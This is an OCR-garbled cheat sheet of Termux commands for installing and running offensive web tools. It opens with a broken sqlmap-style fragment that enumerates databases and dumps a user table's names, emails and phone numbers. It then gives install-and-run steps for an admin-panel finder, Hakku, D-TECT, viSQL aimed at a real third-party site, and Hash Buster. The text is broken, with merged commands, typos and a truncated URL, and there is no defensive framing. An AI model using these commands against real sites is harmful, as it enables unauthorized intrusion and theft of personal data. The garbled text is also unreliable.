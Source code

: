 web –dbs -D acuart –tabel -D acuart -T pengguna –kolom -D acuart -T pengguna -C nama, email, telepon -dump BUSCA PAINEL ADM DE SITE pkg install git git clone https://github.com/Techzindia/admin_penal cd admin_penal chmod +x admin_panel_finder.py python2 admin_panel_finder.py HAKKU apt install pytho apt install git mkdir vasu git clone https://github.com/ 4shadoww/hakkuframeworkcd hakkuframework chmod +x hakku python hakku show modules use whois show options set target examplesite.com run TOOL D-TECT apt update apt install git git clone https://github.com/shawarkhanethicalhacker/D-TECT cd D-TECT apt install python2 chmod +x d-tect.py python2 d-tect.py examplesite.com viSQL apt update apt install python2 apt install git git clone https://github.com/blackvkng/viSQL cd viSQL python2 -m pip install -r requirements .txt python2 viSQL.py python2 viSQL.py -t http://www.bible-history.com Hash Buster apt update apt upgrade apt install python2 apt install git git clone https://github.com/UltimateHackers/Hash-Bustercd Hash-Buster python2 hash.py tool ubuntu $ apt update $ apt install git $ apt install wget $ apt install proot $ git clone https://github.com/Neo-Oli/termux-ubu&#8230 ; $ cd termux-ubuntu $ chmod +x ubuntu.sh $ ./ubuntu.sh $ ./start.sh